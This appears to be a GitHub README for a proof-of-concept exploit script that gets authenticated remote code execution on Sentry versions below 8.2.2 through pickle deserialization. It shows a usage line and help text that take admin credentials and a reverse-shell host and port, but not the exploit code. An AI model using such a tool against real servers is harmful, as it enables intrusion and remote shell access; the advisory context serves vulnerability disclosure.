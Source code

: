 # Sentry-Authenticated-Remote-Code-Execution
## Sentry &lt; 8.2.2 Pickle Deserialization to RCE

<h4> Discovered By : Clement Berthaux (SYNACKTIV) </h4>
<h4> Advisory Link : https://doc.lagout.org/Others/synacktiv_advisory_sentry_pickle.pdf </h4>
<h4> Exploit DB Link :  </h4>

<h3> Usage : python exploit.py --url `URL` -U `username` -P `password` -l `LHOST` -p `LPORT`</h3>
  

usage: exploit.py [-h] [-U U] [-P P] [-l L] [-p P] [--url URL]

Sentry < 8.2.2 Authenticated RCE

optional arguments:
  -h, --help  show this help message and exit
  -U U        Sentry Admin Username / Email
  -P P        Sentry Admin Password
  -l L        Rev Shell LHOST
  -p P        Rev Shell LPORT
  --url URL   Sentry Login URL
              
              
![alt text](https://github.com/mohinparamasivam/Sentry-Authenticated-Remote-Code-Execution/blob/main/sentry_exploit.png?raw=true)              
              


# Dependencies

<h4>pip install requests</h4>
<h4>pip install bs4</h4>
<h4>pip install argparse</h4>

